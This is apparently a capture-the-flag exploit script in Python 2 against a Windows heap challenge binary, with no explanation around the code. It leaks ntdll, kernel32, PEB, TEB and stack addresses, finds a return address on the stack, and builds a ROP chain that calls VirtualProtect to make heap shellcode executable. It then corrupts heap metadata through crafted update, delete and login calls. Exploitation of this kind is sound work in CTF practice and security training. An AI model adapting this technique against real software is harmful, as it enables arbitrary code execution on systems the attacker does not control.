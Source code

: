 ```python
print hex(cookie)

ntdll = leak(heap+0x2c0)-0x163d10
print hex(ntdll)
Pebldr = ntdll+0x1653A0
print hex(Pebldr)
readmem = leak
imoml = readmem(Pebldr+0x20)
print hex(imoml)
bin_base = readmem(imoml+0x28) - 0x1b80 - 0x70 - 0x2c0
print "bin_base:",hex(bin_base)
iat = bin_base + 0x3000
kernel32 = readmem(iat) - 0x22680
print "kernel32:",hex(kernel32)
peb = readmem(ntdll+0x165308) - 0x80
print "peb:",hex(peb)
teb = peb + 0x1000
print "teb:",hex(teb)
stack = readmem(teb+0x10+1) << 8
print "stack:",hex(stack)
start = stack+0x2ff0
main_ret = bin_base + 0x1E38
virutalprotect = kernel32 + 0x1B680
ret_addr = 0
pop_rdx_rcx_r8_r9_r10_r11 = ntdll + 0x8FB30

exe_addr = heap
shellcode_addr = heap+0xd90+0x70

rop_chain = [pop_rdx_rcx_r8_r9_r10_r11,0x1000,exe_addr,0x40,heap+0x1100,0,0,virutalprotect,shellcode_addr]
rop = ""
for gadget in rop_chain:
    rop += p64(gadget)

for i in range(80, 0x2000/8):
    try :
        val = readmem(start-i*8)
        print "search : %d 0x%x" % (i, val)
        if val == main_ret:
            print "found !"
            ret_addr = start - i*8
            break
    except :
        continue

stack_ret = ret_addr - 0x280

update('3', 0x200, '33')
update('3', 0x10, '33')
update('\x10', 0x10, '44')

update('3', 0x10, 'A' * 0x18 + p64(header) + p64(heap+0xa80) + p64(0x10) + p64(0x10) + p64(0) * 8 + p64(bin_base + 0x5668))
delete('\x10')
update('\x01', 0x200, '55')
update('\x00', 0x10, '66')

logout()
login('orange\x00\x00' + p64(cookie ^ 0x0000000309000009) + p64(heap+0xf60) + p64(heap+0xdb0)[:6], 'godlike')

update('7', 0x300, '77')
```